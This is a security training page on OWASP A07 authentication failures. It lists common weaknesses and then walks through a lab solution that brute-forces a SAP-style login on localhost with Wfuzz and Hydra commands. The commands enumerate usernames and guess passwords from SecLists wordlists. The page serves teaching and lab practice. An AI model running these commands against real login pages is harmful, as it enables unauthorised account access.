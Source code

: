 ```yaml
---
icon: fingerprint
---
```


# A07 - Identification and Authentication Failures

Weak identification and authentication mechanisms expose systems to identity theft and unauthorized access risks. This category now includes identification vulnerabilities alongside authentication errors.

#### Examples of Identification and Authentication Weaknesses

* Allows automated attacks, such as credential stuffing, where the attacker has a list of valid usernames and passwords.
* Enables brute-force or other automated attacks.
* Allows the use of default, weak, or well-known passwords, like "Password1" or "admin/admin."
* Employs weak or ineffective credential recovery mechanisms, such as knowledge-based answers that are insecure.
* Stores passwords in plain text, with weak encryption, or with weak hashing methods.
* Lacks multi-factor authentication or uses ineffective MFA.
* Exposes session identifiers in the URL.
* Reuses session identifiers after successful login.
* Fails to invalidate session tokens correctly, causing user sessions or authentication tokens (e.g., single sign-on tokens) to persist after logout or idle time.

## Example: Login Page

### Solution

In this scenario, we have an SAP login page that could be vulnerable to brute-force attacks. Using a list of default SAP usernames, we can attempt to find a valid username by brute-forcing with tools like **Hydra** or **Wfuzz**.

**1) Username Enumeration**: Start by fuzzing for valid usernames.

Using **Wfuzz**:

```bash
wfuzz -z file,/usr/share/wordlists/seclists/Usernames/sap-default-usernames.txt -d "username=FUZZ&password=test" http://localhost:8042/login.php
```

Using **Hydra**:

```bash
hydra -L /usr/share/wordlists/seclists/Usernames/sap-default-usernames.txt -p test -s 8042 localhost http-post-form "/login.php:username=^USER^&password=^PASS^:Incorrect username"
```

Once a valid username is found, proceed to brute-force its password.

**2) Password Brute-Forcing**: Use a common password list such as `10-million-password-list-top-100.txt` or `rockyou.txt`.

Using **Wfuzz**:

```bash
wfuzz -z file,/usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt -d "username=<USER>&password=FUZZ" http://localhost:8042/login.php
```

Using **Hydra**:

```bash
hydra -l SOLMAN_ADMIN -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt -s 8042 localhost http-post-form "/login.php:username=^USER^&password=^PASS^:Incorrect password"
```

When the correct password is found, the application may reveal it by returning a response of different length or content, allowing you to determine the correct credentials.

**3) One-Command Brute Force with Hydra**: If targeting both usernames and passwords in a single command:

```bash
hydra -L /usr/share/wordlists/seclists/Usernames/sap-default-usernames.txt -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt -s 8042 localhost http-post-form "/login.php:username=^USER^&password=^PASS^:Incorrect"
```

Once the correct username and password are found, you gain access to the application and retrieve the flag.
